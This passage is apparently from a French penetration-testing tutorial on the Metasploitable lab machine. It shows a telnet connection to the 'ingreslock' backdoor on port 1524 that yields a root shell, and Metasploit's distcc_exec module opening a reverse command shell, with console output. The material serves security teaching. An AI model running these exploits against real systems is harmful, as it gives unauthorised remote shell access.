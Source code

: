 ```text
[*] B: "8bMUYsfmGvOLHBxe\r\n" 
[*] Matching... 
[*] A is input... 
[*] Command shell session 1 opened (192.168.1.128:4444 -> 
192.168.1.131:60257) at 2012-05-31 21:53:59 -0700 
 
id 
uid=0(root) gid=0(root)
```

Une autre et très vieille backdoor, « ingreslock », écoute sur le port 1524. Pour y accéder, rien de plus simple :

```text

root@ubuntu:~# telnet 192.168.1.131 1524 
Trying 192.168.1.131... 
Connected to 192.168.1.131. 
Escape character is 'ˆ]'. 
root@metasploitable:/# id 
uid=0(root) gid=0(root) groups=0(root) 
 
 
Services:Unintentional Backdoors
```

En plus des backdoors vues précédemment, quelques services sont des sortes de backdoors par leur nature. Le premier est **distccd**. Distccd est le serveur du compilateur réparti **distcc**. Il exécute les tâches de compilation qui lui sont confiées en réseau par ses clients.

Distcc peut être exécuté soit sur TCP, soit par une commande de connexion telle que ssh : les connexions TCP sont rapides mais peu sûres ; les connexions SSH sont sécurisées mais plus lentes.

Le problème avec ce service est qu’un attaquant peut aisément le contourner pour lancer une commande de son choix. Nous allons démontrer cela en utilisant un module Metasploit.

```text

Msfconsole 
msf > use exploit/unix/misc/distcc_exec  
msf exploit(distcc_exec) > set RHOST 192.168.1.131 
msf exploit(distcc_exec) > exploit  
 
[*] Started reverse double handler 
[*] Accepted the first client connection... 
[*] Accepted the second client connection... 
[*] Command: echo uk3UdiwLUq0LX3Bi; 
[*] Writing to socket A 
[*] Writing to socket B 
[*] Reading from sockets... 
[*] Reading from socket B 
[*] B: "uk3UdiwLUq0LX3Bi\r\n" 
[*] Matching... 
[*] A is input... 
[*] Command shell session 1 opened (192.168.1.128:4444 -> 
192.168.1.131:38897) at 2012-05-31 22:06:03 -0700 
 
id 
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
